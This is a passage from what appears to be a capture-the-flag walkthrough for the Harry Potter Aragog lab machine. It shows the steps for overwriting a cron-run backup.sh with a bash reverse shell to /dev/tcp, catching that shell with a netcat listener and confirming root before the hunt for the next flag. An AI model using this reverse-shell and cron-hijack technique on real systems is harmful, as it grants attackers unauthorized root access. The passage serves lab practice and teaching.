 
1. **Backup the Original Script** (optional but recommended):
   ```bash
   cp /usr/local/bin/backup.sh /usr/local/bin/backup.sh.bak
   ```

2. **Overwrite `backup.sh`**:
   ```bash
   echo '#!/bin/bash' > /usr/local/bin/backup.sh
   echo 'bash -i >& /dev/tcp/<your-ip>/<your-port> 0>&1' >> /usr/local/bin/backup.sh
   chmod +x /usr/local/bin/backup.sh
   ```

### 5. Set Up a Netcat Listener
On your local machine, set up a Netcat listener to catch the reverse shell:

1. **Open a Terminal**:
   Open a terminal window on your local machine.

2. **Start the Listener**:
   ```bash
   nc -lvnp <your-port>
   ```
   Replace `<your-port>` with the port number you specified in the reverse shell script.

### 6. Wait for Execution
Wait for the `backup.sh` script to execute at its next scheduled interval. When it runs, you should receive a reverse shell on your Netcat listener.

### 7. Confirm Root Access
Once the reverse shell is established, confirm root access:

1. **Check User**:
   ```bash
   whoami
   ```
   You should see:
   ```
   root
   ```
![image16](https://github.com/kanhaiyasingh12/HARRY-POTTER-ARAGOG-1.0.2-/blob/main/Screenshot%202024-05-23%20063507.png)
### 8. Locate the Second Horcrux
Search the system for the second Horcrux. Typically, it might be stored in a specific directory known only to root users.
